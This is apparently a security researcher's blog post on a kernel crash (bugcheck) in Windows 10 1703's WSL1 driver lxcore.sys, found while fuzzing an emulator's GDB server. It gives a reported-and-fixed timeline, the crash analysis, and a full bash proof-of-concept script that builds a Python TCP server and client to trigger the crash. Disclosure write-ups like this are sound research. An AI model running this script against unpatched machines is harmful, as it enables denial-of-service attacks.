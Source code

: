 ```yaml
---
id: 438
title: 'Babesia &#8211; Windows 10 1703 DoS in lxcore'
date: '2020-01-10T20:04:36+01:00'
author: Martin
layout: post
guid: 'https://www.sundhaug.com/?p=438'
permalink: /w10-1703-bugcheck-in-lxcore/
categories:
    - Hacking
---
```


## Timeline

```
<pre class="wp-block-preformatted">Found at or before May 2nd, 2017
Reported May 2nd~3rd, 2017
Fixed in 10.0.15063.XXX 2017-XX-XX
```

## Demo

<figure class="wp-block-embed-youtube wp-block-embed is-type-video is-provider-youtube wp-embed-aspect-16-9 wp-has-aspect-ratio"><div class="wp-block-embed__wrapper"><span class="embed-youtube" style="text-align:center; display: block;"><iframe allowfullscreen="true" class="youtube-player" height="296" loading="lazy" sandbox="allow-scripts allow-same-origin allow-popups allow-presentation" src="https://www.youtube.com/embed/i99ut6KgdvQ?version=3&rel=1&showsearch=0&showinfo=1&iv_load_policy=1&fs=1&hl=en-US&autohide=2&wmode=transparent" style="border:0;" width="525"></iframe></span></div></figure>## Story

Years ago, while trying to fuzz the GDB-server-implementation in the Nintendo® Game Boy Advance-emulator VBA-M (Visual-Boy Advance), I came upon a few issues. For one, fuzzing on Windows 10, my primary operating-system, was not as easy as I’d like it to. Now this was a fairly easy problem to solve, as Microsoft had just a few months before released their first stable release of the Windows Subsystem for Linux (IIRC, still called Bash on Windows at the time). The second issue, was that I couldn’t find an appropriate protocol-fuzzer for GDB. This required a bit more work, requiring me to write one myself in python. GDB treats a TCP-connection as a serial-port, meaning it reuses the GDB serial-protocol. The GDB serial-protocol is reasonably well documented, so this didn’t pose too many additional hours. Then, there was the big issue: My computer crashing.

<figure class="wp-block-image size-large">![In Norwegian: "Your PC ran into a problem and needs to restart. We're just collecting some error info, and then we'll restart for you.
...
Stop-code SYSTEM_THREAD_EXCEPTION_NOT_HANDLED
What failed: LXCORE.SYS"](https://i0.wp.com/www.sundhaug.com/wp-content/uploads/2020/01/image.png?resize=525%2C386&ssl=1)<figcaption>Picture of the bugcheck</figcaption></figure>A bugcheck, or Blue Screen Of Death, is triggered whenever the Windows kernel detects an error. VBA-M runs in user-mode, as does GDB, as does my python-based fuzzer. Nothing in user-mode should be able to cause a kernel crash and if it does, that’s a bug, and a potential security-issue.

So, now the questions become what’s triggered, where is it triggered, and how is it triggered.

Now, the first clue is in the bugcheck itself, on the bottom-most line: “LXCORE.SYS”. LXCORE.SYS, which was previously known as dates back to Microsofts Project Astoria, and is the core kernel-component of WSL1 (As the name suggests). So now we know what kernel-module is failing, and it’s not too surprising that it is the (then) relatively new WSL1.

The second clue? Well it happens when VBA-M has its GDB-server enabled, but not when it isn’t. Third, when the bugcheck is triggered, Windows writes a memory-dump to the C:\\-drive. The memory-dump includes everything that’s needed to find out what went wrong, including the stack-trace. The stack-trace, or the call-stack if you will, includes references to functions like: “LxpSocketInetStreamShutdownInternal”, “LxpSocketInetStreamFileReleaseInternal”, and “LxpSocketInetStreamAcceptWorkerRoutine”. These functions have a few words in common, such as “Lxp” (possibly LinuX Pico), “Inet” (indicating IP), and “Stream” (in context, TCP). The word “Accept” indicates that it likely has to do with the server accepting a connection.

## Exploit

Now, to test the hypothesis, we need to create the most basic possible “server”, and associated client. To accept a TCP-connection, you need to do three syscalls in a \*nix-system:

1. You need to bind the socket to a port
2. You need to listen on that socket
3. You need to accept the connection

When you do this, and have a client send data early, you end up with a bugcheck. Yay for crashing the PC.

The below exploit is very simple, it’s just a bash-program (with some flare of course), that writes a python client and a python server to disk, then runs both of them for a few seconds (assuming that if the bug is triggered, it’s relatively fast). If the program completes running for more than 1 minute, it’s assumed that the bugcheck has been fixed.

<div class="wp-block-syntaxhighlighter-code ">```
<pre class="brush: bash; title: ; notranslate" title="">
#!/bin/bash
function typewriter
{
    text="$1"
    for i in $(seq 0 $(expr length "${text}")) ; do
        echo -n "${text:$i:1}"
        sleep 0.003
    done
}

function hackify
{
    echo -e "\033[38;2;0;250;0m"
    echo -e "\033[48;2;0;000;0m"
}

typewriter "[ * ] Hackifying terminal"
for i in $(seq 3); do
    echo -n .
    sleep .3
done
hackify
clear
typewriter "[ * ] Terminal hackified"
sleep 1
clear

typewriter "|----------------------------------------|";echo
typewriter "|                                        |";echo
typewriter "|                Babesia                 |";echo
typewriter "|                                        |";echo
typewriter "|             by @sundhaug92             |";echo
typewriter "|                                        |";echo
typewriter "|----------------------------------------|";echo

echo
echo  3
echo "
import socket
import time
s = socket.socket()
s.bind(('0.0.0.0', 55555))
s.listen(1)
s.accept()
while True: time.sleep(1)" > server.py
sleep 1
echo 2
echo -e "
import socket
r = []
while True:
    s = socket.socket()
    s.connect(('localhost', 55555))
    s.send(b'A')
    r.append(s)" > client.py
sleep 1

echo 1
python server.py &
server_pid=$!
sleep 1

python3 client.py &
client_pid=$!
sleep 1
echo IMPACT

for i in $(seq 60); do
    echo -n .
    sleep 1
done

clear

typewriter "https://www.youtube.com/watch?v=w1--BxLy3lg#t=1m39s";echo
typewriter "^ We're still here'";echo
echo
typewriter "killing child-processes"
kill -9 $server_pid $client_pid
```

</div>The exploit is named after Babesia, which is a single-cell parasite.